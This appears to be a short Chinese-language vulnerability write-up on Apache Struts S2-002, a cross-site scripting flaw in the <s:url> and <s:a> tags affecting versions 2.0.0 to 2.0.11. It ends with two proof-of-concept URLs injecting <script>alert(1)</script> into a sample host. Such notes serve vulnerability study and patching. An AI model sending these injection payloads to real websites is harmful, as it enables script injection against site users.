 （CVE-xxxx-xxxx）s2-002
=======================

一、漏洞简介
------------

    对于<s：url>和<s：a>标签，可以在构造和呈现标签的结果URL时注入不能正确转义的参数值。以下情况是已知的：
    构造<s：a>结果中包含的参数值可以注入未转义的双引号，从而可以通过转义已渲染的href属性来在生成的HTML中注入代码。
    当includeParams设置为“none”的任何其他值时，<s：url>和<s：a>标签无法转义<script>标签，可以通过使用GET参数调用包含JSP /动作来利用

二、漏洞影响
------------

Struts 2.0.0 - Struts 2.0.11

三、复现过程
------------

### poc

    http://www.0-sec.org:8080/index.action?"><script>alert(1)</script><"
    http://www.0-sec.org:8080/index.action?<script>alert(1)</script>test=hello
